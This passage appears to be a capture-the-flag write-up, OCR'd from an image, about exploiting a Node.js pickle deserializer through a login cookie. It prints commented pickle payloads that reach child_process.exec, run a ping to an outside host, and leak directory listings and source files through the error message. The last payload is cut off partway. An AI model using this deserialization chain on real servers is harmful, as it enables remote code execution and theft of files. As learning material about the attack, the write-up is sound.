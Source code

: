 ```
```

We have an equivalent of the `reduce` function directly callable from `this.rediuce`, so now we can `require` any library and use the same technique to retrieve any function.

```
pickle += ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'cp'\n"+ // push arbitrary String 'cp'
"c"+ // GLOBAL
"global\n"+ //moduleName
"rediuce\n"+ //name
"("+ // a marker used to define the begining of something
"S'child_process'\n"+ // 'child_process' String
"l"+ // l create an array of elements until the marker
// stack looks like [`this`, 'cp', `this.rediuce`, ['child_process']]
"R"+ // REDUCE apply `this.rediuce` on 'child_process'
// stack looks like [`this`, 'cp', `child_process`]
"s"+ // SETITEM so we have this.cp accessible
"c"+ // GLOBAL
"cp\n"+ //moduleName
"exec\n"+ //name
"("+
"S'ping secret-in.me'\n"+
"l"+ // push pop 'ping secret-in.me' and push ['ping secret-in.me']
"R"+ // apply `cp.exec` on 'ping secret-in.me'
"." // the end
```

We tried `child_process.execSync` but the server version didn't appear to support it and `child_process.exec` in asynchronous mode didn't allow us to do any connect back...

We need a way to get some information back in the response.

If we send this kind of cookie (don't forget to encode \n in %0A) we can see in the response :

`Could not establish your login, <em>undefined</em>. Please try logging in again.`

The original cookie is a kind of dict `{username: 'admin', password: 'admin', admin: 0}`

If we send `(dp0\nS'username'\np1\nS'test's.` we get the error `Could not establish your login, <em>test</em>. Please try logging in again.`

The idea is to create `{username: 'leaked content'}`.

And that's all ! Using `fs.readdirSync` and `fs.readFileSync` we can leak directory content and dump the whole source code !


HERE IS THE WHOLE PICKLE DEFINITION

```
var pickle = ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
// now `this` is on the stack
"S'a'\n"+ // push arbitrary String 'a' (arbitrary key name)
"c"+ // GLOBAL
"process\n"+ //moduleName
"mainModule\n"+ //name
// now we got [`this`, 'a', `process.mainModule`]
"s"+ // SETITEM
// `this` has a new parameter named 'a' which is the mainModule object !
// we do it again for constructor
"c"+ // GLOBAL
"global\n"+ //moduleName
```